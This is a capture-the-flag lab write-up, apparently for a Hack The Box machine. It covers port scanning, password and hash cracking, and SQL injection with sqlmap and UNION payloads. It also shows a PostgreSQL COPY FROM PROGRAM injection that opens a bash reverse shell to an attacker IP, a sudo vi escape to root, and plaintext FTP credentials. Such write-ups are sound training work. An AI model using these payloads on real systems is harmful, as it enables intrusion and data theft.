Box author | 

<!--more-->

## Enumeration

- Top 1000 ports scan

```bash
sudo nmap -sC -sV -oN nmap/initial 10.10.10.46
```

- the result

```sql
# Nmap 7.91 scan initiated Sat Jun  5 20:45:49 2021 as: nmap -sC -sV -oN nmap/initial 10.10.10.46
Nmap scan report for 10.10.10.46
Host is up (2.2s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  5 20:49:09 2021 -- 1 IP address (1 host up) scanned in 199.30 seconds
```

- All ports scan

```bash
sudo nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.46
```

- the result

```sql
# Nmap 7.91 scan initiated Sun Jun  6 01:05:52 2021 as: nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.46
Nmap scan report for 10.10.10.46
Host is up (0.28s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  6 01:34:04 2021 -- 1 IP address (1 host up) scanned in 1691.79 seconds
```

- The result of both this scan
- open ports
	- 21 / ftp
	- 22 / SSH
	- 80 / http

## FTP

- login with this credentials
  - `ftpuser:mc@F1l3ZilL4`
  - this credentails found from previous machine called `oopsie`

- Found `backup.zip` file



- download the `zip file`


## Zip2John

- the zip file is encrypted



- Time to use `zip2john`
- Direct the output from `zip2john` into file called `backup.hash`



### John-The-Ripper[JtR]

- Use JtR to crack it
  - found the password



### Content of the ZipFile

- Unzip and got 2 files called
  - `index.php`
  - `style.css`

- Found the password in `index.php`



- turns out, it is `md5 hash`
- crack it using online tool
	- [crackstation.net](https://crackstation.net/)



## The Website

- Login with the password found in `index.php` file



- Assuming this is a database loaded several cars
- Try to insert `'` in the search field and got this error



### SQLmap

- Here is the syntax. Sqlmap also needed cookie for this to work

```bash
sqlmap.py -u 'http://10.10.10.46/dashboard.php?search=sunny' --cookie="PHPSESSID=q14pc524upvp0hspqoh1n5nq8p" --batch
```



- This server is using PostgreSQL database
- Sqlmap also found vulnerability can lead into injections



### UNION select
- Source
  - [SQLinjection UNION attacks[PortSwigger]](https://portswigger.net/web-security/sql-injection/union-attacks)

### Finding Columns for attack
- Finding how many columns for SQL injection attack
- By inserting this into `search field`:
  -  `' ORDER BY 1--`
  -  `' ORDER BY 2--`
  -  `' ORDER BY 3--` .. and so on.
  	-  Until you've found an error.

### Python script
- However, I'm kinda lazy. So, I made python script for it.

```python
#!/usr/bin/env python3

import requests

for i in range(1,100):
    url = f"http://10.10.10.46/dashboard.php?search=' ORDER BY {i} --"
    c = {'PHPSESSID':'lfbncgq98bat28uu4v3r4j2dnh'}
    r = requests.get(url, cookies=c)
    if len(r.content) == 2449:
        print(f"Error Not Here {i}")
    else:
        print(f"Error Here {i}")
```

- the result



- By looking at this result, we've found 5 columns.

### Finding Columns with useful data


Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.



- Now, we just found `5 columns` 
- The next payload gonna be using `UNION SELECT` 
- `Place string into each column.`
- This is what I'm gonna try:
	- `' UNION SELECT 'a',NULL,NULL,NULL,NULL--`
	- `' UNION SELECT NULL,'a',NULL,NULL,NULL--`
	- `' UNION SELECT NULL,NULL,'a',NULL,NULL--`
	- `' UNION SELECT NULL,NULL,NULL,'a',NULL--`
	- `' UNION SELECT NULL,NULL,NULL,NULL,'a'--`


- Well, we've found an error at the first column that state:
	- `ERROR:  invalid input syntax for integer: "a"
LINE 1: ...ect \* from cars where name ilike '%' UNION SELECT 'a',NULL,N...`




If the data type of a column is not compatible with string data, the injected query will cause a database error, such as: </br>
`Conversion failed when converting the varchar value 'a' to data type int.`


- The rest of it. Work Fine

## Foothold/Gaining Access

### The Version of database

- Let's get the database version by inserting this in search field:
- `' UNION SELECT NULL,VERSION(),NULL,NULL,NULL--`
- The result



## Exploit

- I found this article 
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

- Let's try exploit it.
- by inserting this:
	- `';DROP TABLE IF EXISTS cmd_exec;--`
	- `';CREATE TABLE cmd_exec(cmd_output text);--`
	- `';COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.16.86/9901 0>&1";'--`

## Reverse Shell

- Got the reverse shell



- Found ssh key



## SSH

- Copy the key and change the permission with `chmod 600`
-  ssh into it



- Let's take a look at the website folder
- `/var/www/html`
- we've found a lot of files



- First, lets check if there any user on it by using `grep`



- Found 2 user exist:
	- `admin`
	- `postgres`

- However, postgres user have it's own password.
- Now, we've got the password. Let's try check the sudo permission on it by typing `sudo -l`




## Privilege Escalation

- Interesting, this user can run `vi` as sudo on specific file
- Let's execute it by open the file with full path
	- `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
	- now, press `esc` and type `:!/bin/sh`
	- press `return`
	- Source
  	- [sudo vi GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)

### Root

- Now, I'm root
- Found the root flag



## Conclusion
I’ve learned a lot today. Make sure to configure the database properly and please update it. Use, long and complicate passwords. DO NOT mix around with the `user command` and the `root command`.

I have a fun time doing this machine and I hope you guys do too. Bye ;)